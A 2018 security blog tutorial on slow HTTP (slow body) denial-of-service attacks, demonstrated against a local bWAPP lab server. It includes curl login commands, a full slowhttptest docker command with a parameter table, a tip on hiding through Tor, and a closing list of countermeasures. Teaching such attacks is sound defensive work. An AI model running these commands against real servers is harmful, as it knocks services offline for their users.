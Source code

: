 :slug: asymmetric-dos-slow-http-attack/
:date: 2018-11-15
:category: attacks
:subtitle: The story of David and Goliath
:tags: security, vulnerability
:image: cover.png
:alt: greek statue with small angels.
:description: After reading this post you'll know about asymmetric attacks, denial of service attacks, you'll know how does a slow http attack work, how to inspect the http requests and responses, and you'll see how to perform an asymmetric denial of service against bWAPP with slowhttptest!
:keywords: DoS, Vulnerability, Slowhttptest, Slow Body, HTTP, Asymmetric attacks.
:author: Kevin Amado
:writer: kamadoatfluid
:name: Kevin Amado
:about1: Civil Engineer
:about2: "An algorithm must be seen to be believed" Donald Knuth

= Asymmetric DoS, slow HTTP attack

Have you ever heard about that beautiful story of David and Goliath where an
underdog, expected to lose and highly underestimate guy, shut down the biggest
and strongest of the enemies?

Fine! because today we are going to talk about those unequal scenarios.
Furthermore, we are going to battle one ourselves.

== Let's get started

So, let's imagine for a moment that all you need to kill the giant that
everyone fears is a little slingshot, not a big maze,
nor the strength of a thousand men...
Sounds crazy? Well it is. But it's possible.

A cyber attack is considered "asymmetric" in the sense
that you need a little amount of resources,
(in this case, our tiny slingshot, or laptop),
in order to cause a considerable level of resources malfunction or failure in
the target, (in this case, the giant, or the server).

If we push hard enough, the server is going to stop providing the service to
other users, in other words, we will cause a _Denial of Service_ (DoS).

== How does a slow http attack work?

Imagine a line at the local fast food restaurant and a customer at the cashier
who is taking an eternity to decide if he wants a burger or a hot-dog, making
everyone else become anxious and stopping down the food delivery.

If you look at it in more detail, all this customer needed was to "not know what
to order" to make the fast food restaurant stop the food delivery, i.e. A DoS.

Now imagine the same line, but you are supposed to know what to order before
reaching the cashier, so there shouldn't be a problem. Bad thing is that now
a customer is ordering a thousand burgers and a hundred hot-dogs, making again
everyone else wait and making the restaurant tell the other customers, "hey,
we'll be busy for the rest of the day cooking this, we can't serve more food!"

The HTTP protocol works similarly, it requires requests to be fully received by
the final user before they are processed.

Two things can happen, if a request is not completed,
the server can either wait, or set the request as timed out after some seconds.
But if you let the request complete, but at a slow rate,
then the server will keep the resource busy waiting for the end of the data.

What would happen if you order a thousand burgers and a hundred hot-dogs at
your turn,
but you don't decide fast what sauce and what drink in each one of them,
and you are intentionally indecisive about your order and speaking slowly?

The answer:

[button]#link:https://cwe.mitre.org/data/definitions/400.html[D.o.S.]#

This is exactly the idea behind a slow HTTP attack.

A web server keeps its active connections in a relatively small connection pool,
and we will try to tie all the connections in this pool to slow requests,
making the server reject another users.

== Let's do an HTTP request

First of all, let's run a
[button]#link:http://www.itsecgames.com/[bWAPP]#
server on ip _192.168.56.101_

.BWAPP server
image::bwapp-running.png[bwapp-running]

For now let's assume that we are at

----
192.168.56.101/bWAPP/xss_post.php.
----

And we entered in the form

.XSS page and input
image::xss-login-form.png[xss-login-form]

Once we access a page,
the browser is going to ask the server for some resources,
(images, texts, HTML pages, CSS and JavaScript files, etc),
and we can see this requests and responses from the command line using _curl_
(or Google Chrome, or Firefox, or BURP).

The process using _curl_ is:

[source, bash, linenums]
----
$ # login to the server so we can see as a logged user the page we want
$ curl -L -c post_login_cookie 'http://192.168.56.101/bWAPP/login.php' \
--data 'login=bee&password=bug&security_level=0&form=submit'
$ # result: a file is saved with name 'post_login_cookie'
$
$ # submit a post request with the data we want on the field
$ curl -L -b post_login_cookie -v \
-d "firstname=test1&lastname=test2&form=submit" \
http://192.168.56.101/bWAPP/xss_post.php
$ # output is displayed to console, we'll see it in a moment
----

As mentioned before,
every single resource is going to have a request and a corresponding response.
In other words, we are asking the server for the _xss_post.php_ resource with
the parameters:

.POST Parameters
[source, bash, linenums]
----
firstname=test1&lastname=test2&form=submit
----

Since we want to se an HTML page, _curl_ asks for it:

.curl, server request output
[source, bash, linenums]
----
*   Trying 192.168.56.101...
* TCP_NODELAY set
* Connected to 192.168.56.101 (192.168.56.101) port 80 (#0)
> POST /bWAPP/xss_post.php HTTP/1.1
> Host: 192.168.56.101
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: PHPSESSID=5fvb1fr053gmc2f91ooicvf1f5; security_level=0
> Content-Length: 41
> Content-Type: application/x-www-form-urlencoded
----

And the server replies with:

.curl, server response output
[source, bash, linenums]
----
* upload completely sent off: 41 out of 41 bytes
< HTTP/1.1 200 OK
< Date: Thu, 15 Nov 2018 21:31:32 GMT
< Server: Apache/2.2.14 (Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.30 with
Suhosin-Patch proxy_html/3.0.1 mod_python/3.3.1 Python/2.6.5 mod_ssl/2.2.14
OpenSSL/0.9.8k Phusion_Passenger/4.0.38 mod_perl/2.0.4 Perl/v5.10.1
< X-Powered-By: PHP/5.3.2-1ubuntu4.30
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 11291
< Content-Type: text/html
----

At this point,
nothing stops us from sending follow up headers with random values:

.POST Parameters
[source, bash, linenums]
----
firstname=FASLDKJFEI&lastname=test2&form=submit
----

wait some seconds...

.POST Parameters
[source, bash, linenums]
----
firstname=IEU182KSZ&lastname=test2&form=submit
----

And nothing stops us to simulate a slow connection on each one of this requests,
so the server is going to have to wait until we receive the full resource.

Why not to do a thousand requests until every single connection available on the
server pool is busy with us?

To do this, we are going to use a tool.

== Using slowhttptest

First of all, lets pull the
link:https://hub.docker.com/r/frapsoft/slowhttptest/[slowhttptest docker image]
from the docker hub

.Bash command
[source, bash, linenums]
----
$ docker pull frapsoft/slowhttptest
----

And write the following command:

.Bash command
[source, bash, linenums]
----
$ sudo docker run --name DoSBWAPP --rm  frapsoft/slowhttptest \
-c 65539 -B -i 10 -l 300 -r 10000 -s 16384 -t firstname \
-u "http://192.168.56.101/bWAPP/xss_get.php" -x 10 -p 300
----

The parameters you see are described below:

.Slowhttptest description
|====
|-c 65539| use 65539 connections
|-B|specify to slow down the http in message body mode
|-i 10|seconds of interval between follow up data, per connection
|-l 300| duration of the test in seconds
|-p 300|timeout in seconds to wait for HTTP response on probe connection,
after which server is considered inaccessible
|-r 10000| connections per second
|-s 16384|value of Content-Length header
|-x 10|max length of follow up data in bytes
|-t firstname|add ?firstname=(-x 10bytes) to the target url
|-u URL|target URL
|====

While the attack is running a user that tries to access the service is going
to see:

.BWAPP is trying to connect without success
image::bwapp-while-attacking.png[bwapp-while-attacking]

If the attack is long enough, it is going to get timed out:

.BWAPP gets timed-out
image::bwapp-timed-out.png[bwapp-timed-out]

Once the attack is finished everything returns to a normal state:

.BWAPP working normally after attack
image::bwapp-attack-finished.png[bwapp-attack-finished]

Since we need a little amount of resources, (a laptop, and internet connection),
we can even do it on a low-bandwidth connection. Moreover, since we don't need
too much bandwidth, we can pass everything through a proxy in the tor network
and hide ourselves.

== Sounds scary, how do I protect myself?

The set of counter measures depends mainly on your service.

Some useful mechanisms to prevent this kind of attacks are:

* Limit the amount of resources that an unauthorized user can cause
to be expended.
* Set the header and message body to a maximum reasonable length.
* Define a minimum incoming data rate, and drop them if they are slower.
* Set an absolute connection timeout.
* Use a Web Application Firewall.
* Reject connections with verbs not supported by the URL.

In cases where you need to set minimum and maximum limits,
a good idea is to find the values from your statistics.
If the value is too short, you may risk dropping legitimate connections;
and if it is too long, you don't get any protection from attacks.
Perhaps using a margin ranging from one to two
link:https://en.wikipedia.org/wiki/Normal_distribution#/media/File:Empirical_Rule.PNG[standard deviations]
may help you with this.

== Finally

I really hope that you liked this article.

Wish you a nice week, and see you in another post!

== References

. [[r1]] Wikipedia (2018).
'Hypertext Transfer Protocol'.
link:https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol[Wiki].

. [[r2]] Sergey Shekyan (2018).
'Slowhttptest - Instalation and usage'.
link:https://github.com/shekyan/slowhttptest/wiki/InstallationAndUsage[Github wiki].

. [[r3]] Sergey Shekyan (2018).
'Application Layer DoS attack simulator'.
link:https://blog.qualys.com/tag/slow-http-attack[Docker hub].
